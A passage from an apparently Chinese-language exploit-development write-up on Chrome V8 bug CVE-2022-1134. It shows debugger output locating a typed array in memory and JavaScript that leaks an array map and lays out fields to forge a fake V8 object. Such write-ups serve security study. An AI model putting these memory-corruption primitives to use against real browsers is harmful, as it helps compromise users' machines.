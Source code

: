 此时我们能够得到 `imgData`  的地址，不妨通过调试来确定一下：

```js
    console.log(v8TypedArrayAddr);
    %DebugPrint(imgData);
```

将会得到如下结果：

```js
DebugPrint: 0x325a081135f9: [JSTypedArray]  
- map: 0x325a083034b9 <Map(UINT8_CLAMPEDELEMENTS)> [FastProperties]  
- prototype: 0x325a082d0eb1 <Object map = 0x325a083034e1>  
- elements: 0x325a080033c9 <ByteArray[0]> [UINT8_CLAMPEDELEMENTS]  
- embedder fields: 2  
- buffer: 0x325a081135b9 <ArrayBuffer map = 0x325a08302d61>  
- byte_offset: 0  
- byte_length: 48  
- length: 48  
- data_ptr: 0x325c00018000  
  - base_pointer: (nil)  
  - external_pointer: 0x325c00018000  
- properties: 0x325a08002249 <FixedArray[0]>  
- All own properties (excluding elements): {}  
- elements: 0x325a080033c9 <ByteArray[0]> {  
       0-47: 0  
}  
- embedder fields = {  
   711816412, aligned pointer: 0x7fa054dae9b8  
   1338892, aligned pointer: 0x3ab00028dc18  
}

[21658:21658:1012/135648.555281:INFO:CONSOLE(109)] "55362263791097", source: file:///home/tokameine/Desktop/chrome-debug/CVE_2022_1134/other_chrome/demoexp.html (1  
09)

pwndbg> tel 55362263791097  
00:0000│  0x325a081135f9 ◂— 0xc908002249083034  
01:0008│  0x325a08113601 ◂— 0x81135b9080033 /* '3' */  
```

通过这种方法确定了一个 V8 对象地址后，由于整个 V8 的内存是线性储存，因此其他所有的对象地址都能够通过该地址加减一个偏移来得到。

> 但是这种方案的效率不高，加减偏移计算地址的方法很可能在不同版本或不同参数等因素浮动，一旦 exp 有一点变动就要重新调试计算，因此更优的方式是通过上述方案直接去读取出实际地址，这样读取的结果总是实时的，因此不容易出现问题。

同理，通过这种读取方式，我们还可以读取出其他对象的 `map` ，这能为我们之后用于伪造对象提供帮助：

```js
    var imgDataStore = new ArrayBuffer(48);
    var imgData = new Uint8ClampedArray(imgDataStore);
    var doubleArr = [1.1, 2.2, 3.3, 4.4, 5.5];
    var objArr = [imgData];

    let doubleArrMatrix = new SubMatrix(v8TypedArrayAddr + 0x74 - 1);
    let doubleMap = ftoi32(readFrom(loopCount, doubleArrMatrix))[1];

    var doubleArrElementDefault = (v8TypedArrayAddr + 0x60) >> 0;
    var doubleArrDefault = i32tof(doubleArrElementDefault, 0x1000);

    //map + properties
    doubleArr[0] = i32tof(doubleMap, 0x8002249);
    //elements + length
    doubleArr[1] = doubleArrDefault;
    doubleArr[2] = i32tof(0x8002249, 0x1000);
    doubleArr[3] = 1.1;
```
